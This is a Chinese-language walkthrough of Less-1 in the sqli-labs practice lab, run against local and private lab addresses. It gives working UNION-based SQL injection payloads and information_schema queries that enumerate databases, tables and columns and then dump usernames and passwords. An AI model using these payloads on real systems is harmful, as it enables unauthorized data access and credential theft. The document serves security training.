

# Less - 01

# 一、SQL注入介绍

---

sql注入漏洞的产生需要满足以下两个条件：
1.参数用户可控：前端传给后端的参数内容是用户可以控制的。
2.参数代入数据库查询：传入的参数拼接到SQL语句，且带入数据库查询。

‍

> Mysql5.0之后的版本，数据库里面会默认存放一个information_schema的库，这个库可以说装着世界上所有的库，这就是为什么我们能利用SQL注入查看任何我们想知道的信息

​​

所以这里我们需要记住四条非常重要的命令  
查看所有库

```sql
select group_concat(schema_name) from information_schema.schemata;
```

​​

查看security库下面的所有表

```sql
select group_concat(table_name) from information_schema.tables where table_schema='security';
```

​​

查看security库下面users表的所有字段

```sql
select group_concat(column_name) from information_schema.columns where table_name='users';
```

​​

查看security库users表下username字段的值

```sql
select group_concat(username) from security.users;
```

​​

---

# 二、通关教程

---

## 1、判断注入点

```http
http://127.0.0.1/sql1/Less-1/?id=1
http://127.0.0.1/sql1/Less-1/?id=1'
http://127.0.0.1/sql1/Less-1/?id=1--+
```

发现输入id=1’屏幕上显示我们的SQL语句有错误，在后面加--+后又正常回显。

​​

​​

由此猜测查询的sql语句如下

```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"
```

可以先打开第一关的配置文件，在SQL语句下面加入两行代码，可以在屏幕上回显我们输入的SQL语句

​​

## 2、判断有多少列字段

---

测试如下payload

```http
http://192.168.225.132/sqli-labs/Less-1/?id=1' order by 3--+ #回显正常
```

​​

```http
http://192.168.225.132/sqli-labs/Less-1/?id=1' order by 4--+ #页面回显显示有错误
```

​​

## 3、判断回显位置

---

使用union函数，union函数使用的前提就是必须字段数要跟前面的字段数相同，使用payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,2,3--+
```

​​

然后在2和3的位置输入我们想查询的数据就可以了

## 4、查看当前库和当前用户

---

mysql查询当前的用户命令如下

```sql
mysql> select user();
+------------------------+
| user()                  |
+------------------------+
| root@DESKTOP-HR1V077 |
+------------------------+
1 row in set (0.04 sec)
```

mysql查询当前操作的数据库

```sql
mysql>  select database();
+-----------+
| database() |
+-----------+
| security   |
+-----------+
1 row in set (0.03 sec)
```

所以这里使用的payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,database(),user()--+
```

​​

## 5、查security库下的所有表

---

使用的payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),user()--+
```

​​

## 6、查users表下的所有字段

---

使用payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),user()--+
```

​​

## 7、查username和password的值

---

使用payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,(select group_concat(username,password) from security.users),user()--+
```

​​

‍
